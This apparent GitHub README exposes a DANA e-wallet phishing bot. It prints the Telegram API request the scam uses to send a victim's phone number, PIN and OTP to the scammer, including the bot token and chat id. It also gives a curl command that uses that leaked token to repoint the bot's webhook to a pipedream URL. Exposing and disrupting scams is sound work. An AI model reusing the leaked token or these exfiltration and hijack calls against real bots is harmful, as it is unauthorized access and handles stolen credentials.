 # Scammer Bot List

Dana Scam

sending post data
![alt text](<WhatsApp Image 2024-06-21 at 20.11.09_0b52bd3e.jpg>)
```sh
https://api.telegram.org/bot7455225662:AAG6duO16TWnXN1Hz4nz2p3InukIoT9TyZE/sendMessage?chat_id=7116185670&text=%E0%BC%BA%E2%95%90%E2%94%80%E2%94%80%E2%97%8D%F0%9D%93%AD%F0%9D%93%AA%F0%9D%93%B7%F0%9D%93%AA.%F0%9D%93%B2%F0%9D%93%AD%E2%98%AD%E2%94%80%E2%94%80%E2%95%90%E0%BC%BB%0A%E2%80%BB%20%F0%9D%97%A1%F0%9D%97%BC%F0%9D%97%BA%F0%9D%97%BC%F0%9D%97%BF%20%F0%9D%97%97%F0%9D%97%94%F0%9D%97%A1%F0%9D%97%94%20:%200852-6277-4355%0A%E2%80%BB%20%F0%9D%97%A3%F0%9D%97%9C%F0%9D%97%A1%20%F0%9D%97%97%F0%9D%97%94%F0%9D%97%A1%F0%9D%97%94.%20%20%20%20%20:%20345679%0A%0A%E2%80%BB%20%F0%9D%97%A2%F0%9D%97%A7%F0%9D%97%A3%20%F0%9D%97%97%F0%9D%97%94%F0%9D%97%A1%F0%9D%97%94%20%20%20%20%20:%201212&parse_mode=html
```

Set other webhook
```sh
$ curl -X POST "https://api.telegram.org/bot7455225662:AAG6duO16TWnXN1Hz4nz2p3InukIoT9TyZE/setWebhook" -d "url=https://eov6tgpfbhsve67.m.pipedream.net"
```